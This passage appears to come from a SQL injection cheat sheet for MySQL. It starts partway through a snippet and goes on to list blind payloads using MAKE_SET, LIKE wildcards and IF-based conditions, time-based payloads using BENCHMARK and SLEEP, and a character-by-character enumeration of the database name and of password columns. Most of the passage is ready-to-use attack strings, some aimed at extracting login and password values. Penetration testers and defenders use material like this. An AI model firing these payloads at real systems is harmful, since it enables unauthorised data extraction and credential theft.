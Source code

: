 ```

Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```

## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

```sql
+BENCHMARK(40000000,SHA1(1337))+
'%2Bbenchmark(3200,SHA1(1))%2B'
AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
RLIKE SLEEP([SLEEPTIME])
OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
```

### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```
